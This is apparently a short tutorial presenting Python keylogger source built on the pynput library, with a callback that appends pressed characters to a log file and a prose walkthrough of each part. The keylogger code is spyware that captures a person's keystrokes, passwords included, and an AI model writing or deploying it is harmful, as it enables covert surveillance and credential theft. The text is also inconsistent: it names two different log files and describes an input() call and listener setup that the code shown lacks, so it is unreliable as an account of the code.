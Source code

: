 Create a basic keylogger program that records and logs keystrokes. Focus on logging the keys pressed and saving them to a file. Note: Ethical considerations and permissions are crucial for projects involving keyloggers.
from pynput import keyboard
This line imports the keyboard module from the pynput library, which is used for monitoring and controlling input devices, such as keyboards and mice.
def keyPressed(key):
    print(str(key))
    with open("keylog.txt", 'a') as logkey:
        try:
           char = key.char
           logkey.write(char)
        except:
            print("Error getting char")

This block defines a function named keyPressed that takes a key parameter. Inside the function, it prints the string representation of the key to the console.
It then opens a file named "keyfile.txt" in append mode ('a') and attempts to get the character representation of the key (key.char).
If successful, it writes the character to the file. If there's an exception (error) during this process, it prints an error message.

The input() function is included to keep the script running indefinitely until the user manually terminates it.

In summary, the code sets up a keylogger using the pynput library, defining a callback function to handle key presses and logging them to a file named "keylog.txt".
The script continues running until the user manually stops it.
